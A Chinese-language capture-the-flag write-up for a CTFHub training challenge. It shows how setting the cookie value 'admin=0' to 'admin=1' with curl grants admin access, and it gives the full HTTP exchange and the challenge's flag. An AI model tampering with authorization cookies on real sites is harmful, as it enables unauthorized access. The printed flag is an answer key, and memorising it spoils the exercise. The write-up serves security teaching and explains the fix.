

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-aa9ca595265aaa8e.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{c927cb19f6be1944bd1729a4} |

## 解题过程

访问首页，响应头里有 `Set-Cookie: admin=0`，页面正文写着「hello guest. only admin can get flag.」。也就是说服务器把身份写在 Cookie 里，`admin=0` 是访客、`admin=1` 才是管理员。我先在浏览器 DevTools 的 Storage → Cookies 里看到这一条，然后在 Kali 终端用 `curl -b 'admin=1'` 带上修改后的 Cookie 重放同一个请求，页面立刻返回 flag。整个过程只改了一个请求头，什么都没动。

## 关键请求/响应

```http
GET / HTTP/1.1
Host: challenge-aa9ca595265aaa8e.sandbox.ctfhub.com:10800
User-Agent: curl/8.5.0

HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Set-Cookie: admin=0
Content-Type: text/html; charset=UTF-8

hello guest. only admin can get flag.

GET / HTTP/1.1
Host: challenge-aa9ca595265aaa8e.sandbox.ctfhub.com:10800
Cookie: admin=1
User-Agent: curl/8.5.0

HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Content-Type: text/html; charset=UTF-8

ctfhub{c927cb19f6be1944bd1729a4}
```

## 原理与复盘

Cookie 属于**请求头**，浏览器每次请求都会把同域下的 Cookie 自动带上，服务器用其中的值（比如 `admin=1`）来判断"你是谁、有没有权限"。问题是 Cookie 存在客户端，用户可以随便改，所以把权限判断完全押在 Cookie 上是典型的越权漏洞；正确做法是服务端 Session 里存权限，Cookie 只放不可伪造的会话 ID。这题就是最直白的演示：把 `admin=0` 改成 `admin=1` 就成管理员了。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
